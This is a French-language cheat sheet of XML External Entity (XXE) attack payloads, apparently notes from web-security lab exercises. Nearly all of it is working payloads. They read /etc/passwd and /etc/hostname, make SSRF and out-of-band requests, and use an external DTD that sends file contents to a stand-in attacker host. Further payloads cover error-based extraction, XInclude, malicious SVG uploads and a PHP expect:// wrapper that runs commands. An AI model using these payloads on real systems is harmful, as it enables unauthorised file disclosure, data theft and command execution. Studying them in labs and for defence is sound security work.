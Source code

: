# XXE

## Lire un fichier

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

## SSRF & Out-of-band interaction

### Avec entitées classiques

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://website.com/"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

### Avec entitées paramétrées

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://website.com"> %xxe; ]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

## Extraire des données

Le DTD externe :

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Pour appeler le DTD :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aab00430348b42f855accb601f60011.exploit-server.net/malicious.dtd"> %xxe;]>
```

### Via les messages d'erreur

Fonctionne uniquement si le message d'erreur retourne le contenu de l'entité envoyée.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Pour appeler le DTD :

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aab00430348b42f855accb601f60011.exploit-server.net/malicious.dtd"> %xxe;]>
```

## Attaques avec XInclude

### Lire un fichier

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## SVG File Upload

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

```svg
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

Ou avec le wrapper PHP `expect` :

```svg
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```